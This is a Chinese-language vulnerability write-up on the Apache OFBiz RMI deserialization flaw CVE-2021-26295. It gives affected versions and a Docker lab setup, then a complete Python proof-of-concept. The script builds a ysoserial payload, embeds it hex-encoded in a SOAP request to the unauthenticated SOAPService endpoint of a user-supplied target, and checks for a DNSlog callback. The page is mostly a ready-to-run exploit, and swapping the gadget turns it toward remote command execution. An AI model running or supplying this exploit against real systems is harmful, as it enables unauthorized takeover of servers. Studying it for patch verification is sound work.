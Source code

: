 # Apache OFBiz RMI反序列化漏洞 CVE-2021-26295

## 漏洞描述
OFBiz是基于Java的Web框架，包括实体引擎，服务引擎和基于小部件的UI。
近日，Apache OFBiz官方发布安全更新。Apache OFBiz 存在RMI反序列化前台命令执行，未经身份验证的攻击者可以使用此漏洞来成功接管Apache OFBiz，建议相关用户尽快测试漏洞修复的版本并及时升级。

## 漏洞影响
Apache OFBiz < 17.12.06

## 漏洞复现
Docker安装环境

```bash
docker run -d -p 8000:8080 -p 8443:8443  opensourceknight/ofbiz
```
![](resource/(CVE-2021-26295)Apache-OFBiz-RMI反序列化漏洞/media/1.png)

使用POC验证Dnslog响应
![](resource/(CVE-2021-26295)Apache-OFBiz-RMI反序列化漏洞/media/2.png)

## 漏洞POC

```bash
下载地址 http://peiqi.tech/shentou/CVE-2021-26295.zip
POC参考了网上公开的几位师傅的脚本
```

```python
import requests
import sys
import sys
import subprocess
import binascii
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Apache OFBiz                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def trans(s):
    return "%s" % ''.join('%.2x' % x for x in s)

def POC_1(target_url, Dnslog):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', "URLDNS", Dnslog], stdout=subprocess.PIPE)
    data = popen.stdout.read()
    hex_data = trans(data)
    headers = {
        'Content-Type': 'text/xml'
    }
    post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><peiqi:clearAllEntityCaches xmlns:peiqi="http://ofbiz.apache.org/service/"><peiqi:cus-obj>%s</peiqi:cus-obj></peiqi:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data
    vuln_url = target_url + "/webtools/control/SOAPService"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=post_data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/webtools/control/SOAPService..... \033[0m".format(target_url))
        if response.status_code == 200:
            print("\033[36m[o] 请检查 Dnslog 响应\n \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```
